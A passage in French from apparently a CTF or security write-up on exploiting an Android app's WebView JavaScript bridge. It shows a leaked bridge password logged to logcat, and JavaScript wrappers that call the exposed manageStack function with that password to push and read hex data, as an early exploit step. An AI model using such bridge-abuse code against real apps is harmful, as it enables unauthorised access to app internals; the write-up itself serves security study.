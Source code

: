 ![](images/alert_pwd.png)

Ca marche !
Les alertes sont très visuelles, mais sont encombrantes car nous devons cliquer dessus pour les faire disparaître. C'est pourquoi nous avons décidé d'utiliser `console.log()` à partir de maintenant. Le résultat devrait apparaître dans la sortie logcat de chrome :

```javascript
console.log("password : "+password);
```

En relançant l'exploit, la sortie dans les logs s'affiche comme prévu :

```
08-01 14:51:21.812  8690  8690 I chromium: [INFO:CONSOLE(8)] "password : acec55ba-0f8e-4cff-82c9-5aee97c5bf54", source:  (8)
```

En ayant le mot de passe, nous pouvons interagir avec la fonction `manageStack`. Comme un bridge a été enregistré, nous pouvons y accéder directement depuis le Javascript. Pour des raisons de commodité, nous avons décidé de faire des petits wrappers autour de cette fonction :

```javascript
function push(data) {
    // interface bridge
    return bridge.manageStack(password, "push", data);
}

function pop() {
    // interface bridge
    return bridge.manageStack(password, "pop", '');
}

function top() {
    // interface bridge
    return bridge.manageStack(password, "top", '');
}

function modify(data) {
    // interface bridge
    return bridge.manageStack(password, "modify", data);
}
```

Les données d'entrée doivent être spécifiées en hexadécimal. La sortie l'est également.

Nous pouvons le tester en empilant une valeur sur la pile et en la récupérant avec `top` :

```javascript
push("41424344")
console.log(top())
```

Cela donne :

```
08-01 15:01:04.401  8690  8690 I chromium: [INFO:CONSOLE(31)] "41424344", source:  (31)
```
